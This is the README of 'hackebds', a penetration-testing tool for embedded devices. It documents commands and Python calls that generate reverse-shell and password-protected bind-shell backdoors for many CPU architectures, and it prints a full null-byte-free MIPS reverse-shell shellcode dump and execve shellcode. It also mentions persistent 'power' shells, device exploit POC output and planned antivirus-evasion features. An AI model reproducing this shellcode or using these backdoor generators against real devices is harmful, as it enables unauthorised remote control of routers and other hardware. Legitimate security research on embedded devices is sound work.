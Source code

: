 hackebds
========

| |image1|\ |image2|
| |image3|

🔗\ `中文readme <https://github.com/doudoudedi/hackEmbedded/blob/main/readme_cn.md>`__

foreword
--------

   In the process of penetration and vulnerability mining of embedded
   devices, many problems have been encountered. One is that some
   devices do not have telnetd or ssh services to obtain an interactive
   shell，Some devices are protected by firewall and cannot be connected
   to it in the forward direction Reverse_shell is required, and the
   other is that memory corruption vulnerabilities such as stack
   overflow are usually Null bytes are truncated, so it is more
   troublesome to construct reverse_shellcode, so this tool was
   developed to exploit the vulnerability. This tool is developed based
   on the PWN module and currently uses the python2 language，\ **Has
   been updated to python3**

fuction
-------

This tool is embedded in the security test of the device. There are two
main functions:

1. Generate **backdoor programs** of various architectures. The backdoor
   program is packaged in shellless pure shellcode and is smal，Pure
   static backdoor .\ **Armv5, Armv7, Armv8, mipsel,
   mips，mips64，mipsel64，powerpc, powerpc64，sparc,sparc64 are now
   supported, and they are still being updated** (PS:bash support is
   added to the reverse shell after version 0.3.1). If the backdoor of
   the reverse shell is generated with the - power parameter, the
   reverse shell will continue to be generated on the target machine)

2. Generate **reverse_shell shellcode** of various architectures during
   the exploit process, and no null bytes, which facilitates the
   exploitation of memory corruption vulnerabilities on embedded
   devices. **Armv5, Armv7, Armv8, mipsel, mips, mips64, mipsel64,
   powerpc, powerpc64，sparc are now supported, and they are still being
   updated**

3. Generate bind of various architectures bind_Shell file.

4. Sort out the exploitable vulnerability POC or EXP of the embedded
   device, and search and output the basic information and POC of the
   device model in use: Function of equipment, Architecture of
   equipment,Device CPU manufacturer,Device CPU model,WEB service
   program of the device, and so on

5. Support command line generation backdoor and shell code, Strong anti
   hunting ability,characterized by light, small, efficient and fast

install
-------

Just use pip to install, if the installation fails, try to use sudo to
install

.. code:: 

   pip(3) install -U hackebds

（If you want this tool to run on a MacOS system, you need to include
python/bin in the bashrc environment variable）

.. code:: 

   echo 'export PATH="/Users/{you id}/Library/Python/{your installed python}/bin:$PATH"'>> ~/.bashrc

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221125095653018.png
   :alt: 

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221121142622451.png
   :alt: 

Instructions for use
~~~~~~~~~~~~~~~~~~~~

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png
   :alt: 

| Please install the corresponding binutils environment before use
| expample:

.. code:: 

   Ubuntu（debian）:
     apt search binutils | grep arm（You can replace it here， if not please execute "apt update" first）
     apt install binutils-arm-linux-gnueabi/hirsute
    MacOS:
    	 https://github.com/Gallopsled/pwntools-binutils
    	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb

If the following error occurs

hackebds: error: argument -model: expected one argument

Please set all parameters to lowercase or lowercase mixed with
uppercase. I guess it is due to the conflict between python and bash in
the interpretation of uppercase and lowercase letters

1. Use the command line to generate the backdoor file name, shellcode,
   bindshell, etc

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png
      :alt: 

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file

   By default, the reverse shell backdoor is created using sh. If bash
   is required (PS: here, the bash command needs to exist on the target
   device)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash

   If you need to generate a backdoor and constantly create reverse
   shells (the CPU occupied by the test is about% 8)

   .. code:: 

      hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash -power

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102183017775.png
      :alt: 

   .. code:: 

      hackebds -bind_port 8080 -passwd 1234 -arch mips -model DIR-823 -res bind_shell

   Create bind_shell to monitor the shell as sh, -power fuction can give
   -shell bash

   .. code:: 

      hackebds -bind_port 8081 -arch armelv7 -res bind_shell -passwd 1231 -power

   The bind_shell process will not stop after being disconnected, and
   supports repeated connections (currently this function is not
   supported by powerpc and sparc series)

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102182939434.png
      :alt: 

   Generate cmd_file function is updated. Only need to specify the - cmd
   parameter to generate programs for various architectures to execute
   corresponding commands , -envp Environment variables are separated by
   commas

   .. code:: 

      hackebds  -cmd "ls -al /" -arch powerpc  -res cmd_file

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230106153459125.png
      :alt: 

   | The list relationship between the output model and the architecture
     is added to the function of generating the back door of the
     specified model to facilitate the user to observe and modify. The
     output information will be enhanced after version 0.3.5, such as
     (60 device information, POC40+or so):
   | Function of equipment
   | Architecture of equipment
   | Device CPU manufacturer
   | Device CPU model
   | WEB service program of the device
   | Device default SSH service support
   | Can monitoring be realized
   | Device default telnet user password
   | Device sdk support
   | Openwrt support for devices
   | Whether the device is vulnerable
   | POC output

   .. code:: 

      hackebds -l

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213151548871.png
      :alt: 

   Add the retrieval of device information. Use - s to search for the -
   model parameter. This search is fuzzy and insensitive to case. Try to
   use the device information with the highest matching degree between
   lowercase output and input when inputting

   .. code:: 

      hackebds -model ex200 -s

   If the following warning occurs during command output

   | /usr/local/lib/python3.8/dist-packages/fuzzywuzzy/fuzz.py:11:
     UserWarning: Using slow pure-python SequenceMatcher. Install
     python-Levenshtein to remove this warning
   |  warnings.warn('Using slow pure-python SequenceMatcher. Install
     python-Levenshtein to remove this warning')

   If the following warning occurs during command output, you can use
   the following command to install python-levenshtein. After
   installation, the command retrieval speed can be increased by about 4
   times

   .. code:: 

      pip install python-levenshtein

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213105520663-20230213151846373.png
      :alt: 

   The POC corresponding to the generated device can use - p or -- poc,
   which may be python scripts, commands, etc., and may need to be
   modified by yourself

   .. code:: 

      hackebds -model ex200 -p

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213105925356.png
      :alt: 

   If a vulnerability is found in the test and you want to add the basic
   information of a new device to this tool, you can use the - add
   function for POC files or "/tmp/model_tree_info/" The format of the
   directory directory of the new device under the info/directory can
   refer to the standard generated format. After the insertion, you can
   use the tool search and POC generation functions，Finally, if you
   need to fill in the POC file information, you can put it in
   "/tmp/model_tree_info/" directory will be read if retrieved again

   .. code:: 

      hackebds -add

   .. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20230213111024854.png
      :alt: 

   If there are device information errors, POC errors, or you want to
   integrate your collected device information with vulnerabilities,
   please contact me doudoudedi233@gmail.com

2. Generate backdoor programs of various architectures, encapsulate pure
   shellcode, and successfully connect to the shell

.. code:: 

   >>> from hackebds import *
   >>> mipsel_backdoor(reverse_ip,reverse_port)
   >>> mips_backdoor(reverse_ip,reverse_port)
   >>> aarch64_backdoor(reverse_ip,reverse_port)
   >>> armelv5_backdoor(reverse_ip,reverse_port)
   >>> armelv7_backdoor(reverse_ip,reverse_port)
   >>> armebv5_backdoor(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_backdoor(reverse_ip,reverse_port)
   >>> mips64el_backdoor(reverse_ip,reverse_port)
   >>> x86el_backdoor(reverse_ip,reverse_port)
   >>> x64el_backdoor(reverse_ip, reverse_port)
   >>> sparc32.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> sparc64.sparc_backdoor(reverse_ip, reverse_port)#big endian
   >>> powerpc_info.powerpc_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpcle_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64_backdoor(reverse_ip, reverse_port)
   >>> powerpc_info.powerpc64le_backdoor(reverse_ip, reverse_port)
   >>> x86_bind_shell(listen_port, passwd)
   >>> x64_bind_shell(listen_port, passwd)
   >>> armelv7_bind_shell(listen_port, passwd)
   >>> aarch64_ bind_ shell(listen_port, passwd)
   >>> mips_bind_shell(listen_port, passwd)
   >>> mipsel_bind_shell(listen_port, passwd)
   >>> sparc32.sparc_bind_shell(listen_port, passwd)
   >>> powerpc_info.powerpc_bind_shell(listen_port, passwd)

（Note that the maximum password length is 4 characters for
x86（32bits） and 8 characters for x64（64bits））

.. code:: 

   >>> mipsel_backdoor("127.0.0.1",5566)
   [+] reverse_ip is: 127.0.0.1
   [+] reverse_port is: 5566
   [*] waiting 3s
   [+] mipsel_backdoor is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144512270.png
   :alt: 

.. code:: 

   >>> from hackebds import *
   >>> x86_bind_shell(4466,"doud")
   [+] bind port is set to 4466
   [+] passwd is set to 'doud'
   0x0000000064756f64
   [*] waiting 3s
   [+] x86_bind_shell is ok in current path ./
   >>>

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028143802937.png
   :alt: 

Then connect to the port bound to the device (password exists)

.. figure:: https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221028144136069.png
   :alt: 

1. Generates the use-back shellcode (no free) null bytes corresponding
   to various architectures

.. code:: 

   >>> from hackebds import *
   >>> mipsel_reverse_sl(reverse_ip,reverse_port)
   >>> mips_reverse_sl(reverse_ip,reverse_port)
   >>> aarch64_reverse_sl(reverse_ip,reverse_port)
   >>> armelv5_reverse_sl(reverse_ip,reverse_port)
   >>> armelv7_reverse_sl(reverse_ip,reverse_port)
   >>> armebv5_reverse_sl(reverse_ip,reverse_port)
   >>> armebv7_backdoor(reverse_ip,reverse_port)
   >>> mips64_reverse_sl(reverse_ip,reverse_port)
   >>> mips64el_reverse_sl(reverse_ip,reverse_port)
   >>> android_aarch64_backdoor(reverse_ip,reverse_port)
   >>> x86el_reverse_sl(reverse_ip,reverse_port)
   >>> x64el_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppcle_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64_reverse_sl(reverse_ip,reverse_port)
   >>> powerpc_info.ppc64le_reverse_sl(reverse_ip,reverse_port)

example:

.. code:: 

   >>> from hackebds import *
   >>> shellcode=mipsel_reverse_sl("127.0.0.1",5566)
   [+] No NULL byte shellcode for hex(len is 264):
   \xfd\xff\x19\x24\x27\x20\x20\x03\xff\xff\x06\x28\x57\x10\x02\x34\xfc\xff\xa4\xaf\xfc\xff\xa5\x8f\x0c\x01\x01\x01\xfc\xff\xa2\xaf\xfc\xff\xb0\x8f\xea\x41\x19\x3c\xfd\xff\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xff\xfe\x19\x3c\x80\xff\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\xfc\xff\xb0\xaf\xfc\xff\xa4\x8f\x20\x28\xa0\x03\xef\xff\x19\x24\x27\x30\x20\x03\x4a\x10\x02\x34\x0c\x01\x01\x01\xf7\xff\x85\x20\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfe\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\xfd\xff\x19\x24\x27\x28\x20\x03\xdf\x0f\x02\x24\x0c\x01\x01\x01\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf8\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xfc\xff\xa9\xaf\xf8\xff\xbd\x27\x20\x20\xa0\x03\x69\x6e\x09\x3c\x2f\x62\x29\x35\xf4\xff\xa9\xaf\x97\xff\x19\x3c\xd0\x8c\x39\x37\x27\x48\x20\x03\xf8\xff\xa9\xaf\xfc\xff\xa0\xaf\xf4\xff\xbd\x27\xff\xff\x05\x28\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\xfb\xff\x19\x24\x27\x28\x20\x03\x20\x28\xa5\x03\xfc\xff\xa5\xaf\xfc\xff\xbd\x23\x20\x28\xa0\x03\xff\xff\x06\x28\xab\x0f\x02\x34\x0c\x01\x01\x01

1. Added that shellcode for calling execve cannot be generated in
   shellcraft (change context generate mips64(el), powerpc shell code
   for execve("/bin/sh",["/bin/sh"]),0))

   .. code:: 

      >>> from hackebds import *
      >>> test = ESH()
      [*] arch is i386
      [*] endian is little
      [*] bits is 32
      >>> test.sh()
      [*] Please set correct assembly schema information(pwerpc or mips64(el))
      >>> context.arch = 'mips64'
      >>> test.sh()
      "\n\t\t\t/* execve(path='/bin/sh', argv=['sh'], envp=0) */\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1, -8($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -8\n\t\t\tdadd     $a0, $sp, $zero\n\t\t\tlui     $t1, 0x6e69\n\t\t\tori     $t1, $t1, 0x622f\n\t\t\tsw      $t1,-12($sp)\n\t\t\tlui     $t9, 0xff97\n\t\t\tori     $t9, $t9, 0x8cd0\n\t\t\tnor     $t1, $t9, $zero\n\t\t\tsw      $t1, -8($sp)\n\t\t\tsw      $zero, -4($sp)\n\t\t\tdaddiu   $sp, $sp, -12\n\t\t\tslti    $a1, $zero, -1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tli      $t9, -9\n\t\t\tnor     $a1, $t9, $zero\n\t\t\tdadd     $a1, $sp, $a1\n\t\t\tsd      $a1, -8($sp)\n\t\t\tdaddi    $sp, $sp, -8\n\t\t\tdadd     $a1, $sp, $zero\n\t\t\tslti    $a2, $zero, -1\n\t\t\tli      $v0, 0x13c1\n\t\t\tsyscall 0x40404\n\t\t\t"
      >>> test.sh()

chips and architectures
-----------------------

Tests can leverage chips and architectures

| Mips:
| MIPS 74kc V4.12 big endian,
| MIPS 24kc V5.0 little endian (Ralink SoC) like MediaTek MT7621
| Ingenic Xburst V0.0 FPU V0.0 little endian

| Armv7:
| Allwinner(全志)V3s

| Armv8:
| Qualcomm Snapdragon 660
| BCM2711

Powerpc, sparc: qemu

🍺enjoy hacking
---------------

updating
--------

2022.4.19 Added support for aarch64 null-byte reverse_shellcode

2022.4.30 Reduced amount of code using functions and support python3

2022.5.5 0.0.8 version Solved the bug that mips_reverse_sl and
mipsel_reverse_sl were not enabled, added mips64_backdoor,
mips64_reverse_sl generation and mips64el_backdoor, mips64el_reverse_sl
generation

2022.5.21 0.0.9 version changed the generation method of armel V5
backdoor and added the specified generation of riscv-v64 backdoor

2022.6.27 0.1.0 Added Android backdoor generation

2022.10.26 0.1.5 Fixed some problems and added some automatic generation
functions of bindshell specified port passwords

2022.10.27 0.1.6 Add support armv7el_bind_shell(2022.10.27)

2022.11.1 Removed the generation sleep time of shellcode, and added
mips\_ bind\_ Shell, reverse of x86 and x64 small end\_ shell\_
Backdoor, the mips that are expected to be interrupted by mips\_ bind\_
Shell, which solves the error of password logic processing in the
bindshell in mips

|  2022.11.2 Joined aarch64\_ bind\_ shell
|  2022.11.2 Support command line generation backdoor and shell code,
  characterized by light, small, efficient and fast

2022.12.6 0.2.8 Add sparc_bind_shell && powerpc_bind_shell ，fix some
bug

2022.12.26 0.2.9 Added the program function of generating specified
commands, and added executable permissions after generating files

2023.1.6 0.3.0 repaired cmd\_ The file generates the function bug of
executing the specified command program, and adds the model ->arch list,
Android bind\_ Shell file

2023.1.16 0.3.1 Added bash reverse\_ Shell. At present, this tool only
supports sh and bash. The - l function is added to list the relationship
between device model and architecture, and the - power function is added
to generate a more powerful reverse\_ shell\_ File, which realizes the
continuous creation of reverse shell links without killing the program.
Currently, the - power function only supports reverse\_ shell\_ file

2023.1.29 0.3.3 -The power function adds support for bind_shell,
bind_shell is more stable, and fixes some bugs in the execution of
bind_shell and cmd_file files of the aarch64 architecture

Problems to be solved
---------------------

Support the backend of the loongarch64 architecture and the generation
of the bind_shell program (binutils has been integrated into the
mainline, but cannot be installed directly through apt)

Improve the generation of power_bind_shell backdoors of powerpc and
sparc series

Add anti-kill function for backdoor programs

vul fix
-------

CVE-2021-29921 The tool is a complete client program. This vulnerability
will not affect the use of the tool. If you want to fix it, please run
the tool in python 3.9 and above

CVE-2022-40023 DOS_attack pip install -U mako (The vulnerability does
not apply to this tool)

CVE-2021-20270 DOS_attack pip install -U pygments (The vulnerability
does not apply to this tool)

0.2.5 Version Repair directory traversal in the specified model

Verion List
-----------

+--------------------------+--------------+------------------------+
| VERSION                  | PUBLISHED    | DIRECT VULNERABILITIES |
+==========================+==============+========================+
| `0.3.2 <https:/          | 18 Jan, 2023 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.3.1 <https:/          | 16 Jan, 2023 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.3.0 <https:/          | 6 Jan, 2023  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.3.0>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.9 <https:/          | 26 Dec, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.8 <https:/          | 6 Dec, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.8>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.7 <https:/          | 22 Nov, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.7>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.3 <https:/          | 15 Nov, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.2 <https:/          | 8 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.1 <https:/          | 7 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.2.0 <https:/          | 2 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.2.0>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.9 <https:/          | 2 Nov, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.6 <https:/          | 27 Oct, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.6>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.5 <https:/          | 26 Oct, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.5>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.3 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.2 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.1.1 <https:/          | 27 Jun, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.1.1>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.9 <https:/          | 21 May, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.9>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.8 <https:/          | 5 May, 2022  | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.8>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.7 <https:/          | 30 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.7>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.6 <https:/          | 30 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.6>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.5 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.5>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.4 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.4>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.3 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.3>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.2 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.2>`__ |              |                        |
+--------------------------+--------------+------------------------+
| `0.0.1 <https:/          | 29 Apr, 2022 | 0C0H0M0L               |
| /security.snyk.io/packag |              |                        |
| e/pip/hackebds/0.0.1>`__ |              |                        |
+--------------------------+--------------+------------------------+

.. |image1| image:: https://img.shields.io/pypi/wheel/hackebds
.. |image2| image:: https://img.shields.io/pypi/pyversions/pwntools
.. |image3| image:: https://static.pepy.tech/badge/hackebds
   :target: https://pepy.tech/project/hackebds


